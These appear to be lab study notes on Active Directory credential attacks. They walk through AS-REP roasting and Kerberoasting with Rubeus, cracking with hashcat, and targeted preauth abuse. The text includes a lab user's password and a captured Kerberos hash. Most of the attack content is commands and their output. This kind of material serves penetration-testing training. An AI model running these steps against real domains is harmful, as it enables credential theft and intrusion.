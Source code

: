 #### AS-REP Roasting from Windows Using Rubeus
##### Step 1: RDP in as Domain User (jeff: _HenchmanPutridBonbon11_)

##### Step 2: Execute Rubeus to identify vulnerable accounts and steal AS-REP hash
###### Command: `.\Rubeus.exe asreproast /nowrap`
Result:
```
$krb5asrep$dave@corp.com:AE43CA9011CC7E7B9E7F7E7279DD7F2E$7D4C59410DE2984EDF35053B7954E6DC9A0D16CB5BE8E9DCACCA88C3C13C4031ABD71DA16F476EB972506B4989E9ABA2899C042E66792F33B119FAB1837D94EB654883C6C3F2DB6D4A8D44A8D9531C2661BDA4DD231FA985D7003E91F804ECF5FFC0743333959470341032B146AB1DC9BD6B5E3F1C41BB02436D7181727D0C6444D250E255B7261370BC8D4D418C242ABAE9A83C8908387A12D91B40B39848222F72C61DED5349D984FFC6D2A06A3A5BC19DDFF8A17EF5A22162BAADE9CA8E48DD2E87BB7A7AE0DBFE225D1E4A778408B4933A254C30460E4190C02588FBADED757AA87A
```

##### Step 3: Copy Hash to Kali Box and Crack with Hashcat
###### Command: `sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`

#### Identify Vulnerable User Accounts That _Do not require Kerberos preauthentication_
##### Windows
Use PowerView's `Get-DomainUser` with `-PreauthNotRequired`
#####  Linux 
Use `impacket-GetNPUsers` without `-request` or `-outputfile`

#### Targeted AS-REP Roasting
Use _GenericWrite_ or _GenericAll_ permissions to not require Kerberos preauthentication

### Kerberoasting from Windows 
If we know SPN of a service, request service ticket from DC which is encrypted with SPN's password hash, and decrypt using brute force to obtain password of service account
#### Step 1: RDP as Domain User (_jeff_: _HenchmanPutridBonbon11_)

#### Step 2: Use Rubeus to Kerberoast (identify SPNs linked with domain user & output those hashes)
###### Command: `.\Rubeus.exe kerberoast /outfile:hashes.kerberoast`
```
PS C:\Tools> .\Rubeus.exe kerberoast /outfile:hashes.kerberoast

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : corp.com
```